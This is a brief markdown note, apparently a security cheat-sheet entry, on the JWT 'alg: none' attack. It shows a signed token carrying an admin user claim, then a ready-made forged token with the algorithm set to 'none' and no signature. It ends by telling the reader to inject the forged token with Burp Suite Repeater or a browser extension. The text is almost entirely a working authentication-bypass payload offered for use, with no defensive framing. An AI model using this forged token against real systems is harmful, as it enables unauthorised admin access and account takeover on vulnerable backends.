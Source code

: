 # JWT `alg: none` Exploit

If a backend accepts JWTs with `alg: none`, we can forge our own.

---

## Original Token (with secret signing):
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.
eyJ1c2VyIjoiYWRtaW4ifQ.
<valid_signature>

## Forged Token (no signature needed):
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.
eyJ1c2VyIjoiYWRtaW4ifQ.

> Use Burp Suite Repeater or browser extension to inject this forged token.